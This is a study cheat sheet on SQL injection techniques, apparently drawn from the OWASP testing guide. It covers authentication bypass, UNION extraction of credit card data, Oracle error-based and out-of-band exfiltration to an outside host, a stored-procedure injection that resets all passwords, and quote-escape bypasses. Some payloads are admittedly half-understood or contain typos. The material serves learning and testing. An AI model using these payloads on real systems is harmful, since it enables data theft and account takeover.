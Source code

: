 # SQL Injection

## Standard Exploitation

* Write `‘or ‘1’ = ‘1`

```sql
# Transform this request : 
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’

# To that : 
SELECT * FROM Users WHERE Username=’admin’ AND Password=’1’ OR ‘1’ = ‘1’
```

* You can also use comment instead of closing the string :
  * `or 1=1 --`  \(be mindful of the last space\)
  * `or 1=1#`
* Use `LIMIT` if needed
* Stack request by terminating it with `;`
  * For example : `http://www.example.com/product.php?id=10; INSERT INTO users (…)` 
  * Not possible with every DB
  * Not possible with a prepare function

## Union Exploitation

* Extend a `SELECT` request with an `UNION`

```sql
# Tansform this request :
SELECT Name, Phone, Address FROM Users WHERE Id=$id

# To that :
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* `ALL` is used against `DISTINCT`
* I added `1, 1` because we need to have the same number of columns that the initial `SELECT` 
  * To determine the correct number, use :`http://www.example.com/product.php?id=10 ORDER BY 10--` 
  * If it returns something, there's 10 columns
  * If it's an error, there either more or less columns
* In this exemple they're int \(so `1, 1`\), but the placeholder also needs to match the column type
  * Start by using NULL and then change the type and check the error
* If only the first result is shown \(aka, the one from the initial request\), give an invalid id so that it's the result of the union which will be use

## Error Based Exploitation

* With oracle, use this type of payload :

```sql
|| UTL_INADDR. GET_HOST_NAME((SELECT user FROM DUAL)) --
```

* It'll return : `ORA-292257: host SCOTT unknown`, revealing the user

{% hint style="info" %}
Check the syntax for other DBMS
{% endhint %}

## Out of band exploitation

* With Oracle

```sql
|| UTL_HTTP. request(‘testerserver.com:80’ || (SELET user FROM DUAL) --
```

{% hint style="info" %}
* Isn't a `)` missing ?
* Check the syntax for other DBMS
{% endhint %}

## Stored Procedure Injection

* This type of syntax exist

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

* Which we can abuse with  :`1 from users; update users set password = ‘password’; select *`
* But i don't know this syntax so i don't know how it works

## Insider Info

If you have an injection in a place where doing an `or 1=1` isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command.

## MySQL Server Specificity

{% hint style="info" %}
There's the same thing for PL/SQL Server, Microsoft SQL Server, PostGre SQL, Miscrosoft Access & NoSQL, but i don't know them so i didn't detailed it
{% endhint %}

* Useful functionnalities for injections by version :
  * From Version 4.0: UNION 
  * From Version 4.1: Subqueries 
  * From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION\_SCHEMA 
  * From Version 5.0.2: Triggers

### Single Quote Escape

* MySQl can escape `'` which prevent some attacks
* You can bypass like this : `password LIKE 'A%'` to
  * `password LIKE 0x4125`
  * `password LIKE CHAR(65,37)`
* If the db use the GBK charset \(simplified chinese\) and not the application, using `\xBF'` \(URL-encoded as `%bf%27`\) will prevent `addslashes` \(php function\) from correctly escaping the quote
  * Explained [here](http://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string)

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* Misc research


